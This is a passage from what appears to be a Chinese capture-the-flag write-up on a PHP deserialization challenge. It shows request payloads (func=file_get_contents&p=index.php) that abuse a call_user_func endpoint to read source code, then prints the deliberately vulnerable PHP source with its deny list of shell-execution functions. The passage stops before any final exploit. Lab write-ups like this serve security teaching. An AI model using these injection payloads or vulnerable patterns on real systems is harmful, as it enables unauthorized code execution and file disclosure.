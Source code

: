 <img src="https://img-blog.csdnimg.cn/20200818175857200.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述">

### No.6 网鼎杯-PHP反序列化利用

1、创建并访问靶机：

<img src="https://img-blog.csdnimg.cn/20200820152108125.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述">

<img src="https://img-blog.csdnimg.cn/20200820150528664.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 2、页面不断地刷新，也没看到什么有用的提示和信息，抓包看一下：

<img src="https://img-blog.csdnimg.cn/20200820152911570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 3、上面POST请求中，date 是php中一个获取时间的函数，而后面的p参数用于获取当地的时间。利用 func 和 p 的传参，可以执行我们想要的函数。于是试一下`eval / assert /system`，结果发现被禁了(提示为Hacker)：

<img src="https://img-blog.csdnimg.cn/20200820160404193.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 4、换个思路，使用以下函数查看 index.php 源码：

```
func=file_get_contents&amp;p=index.php    
func=highlight_file&amp;p=index.php


```

这两个函数没有被禁，我们都可以得到源码:

<img src="https://img-blog.csdnimg.cn/20200820161521998.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 完整代码如下：

```
&lt;?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval",
    "proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array",
    "call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function",
    "filter_var", "filter_var_array", "uasort", "uksort","array_reduce","array_walk", "array_walk_recursive","pcntl_exec",
    "fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this-&gt;func != "") {
                echo gettime($this-&gt;func, $this-&gt;p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
?&gt;
```